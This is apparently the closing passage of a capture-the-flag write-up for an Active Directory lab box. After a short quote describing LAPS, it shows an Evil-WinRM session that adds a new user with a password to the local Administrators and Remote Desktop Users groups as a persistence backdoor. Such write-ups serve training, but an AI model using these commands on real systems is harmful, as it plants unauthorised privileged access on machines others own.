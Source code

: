 What is LAPS? 

from Microsof: 

```
The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.
```
## Beyond root

Stuff I like to do on Active Directory boxes: Adding my own user. 

You have to adopt the PWN --> Pivot --> Escalate

Add a user to the local admin groups: 


```bash
*Evil-WinRM* PS C:\Users\Martin\Desktop> cmd /c net user TheRedTea ushallnotpass /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\Martin\Desktop> cmd /c  net localgroup administrators TheRedTea /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\Martin\Desktop> net localgroup "Remote Desktop Users" "TheRedTea" /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\Martin\Desktop> cmd /c net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    JDgodd
krbtgt                   Martin                   nikk37
TheRedTea                yoshihide
The command completed with one or more errors.
```
See you in the next writeup. 

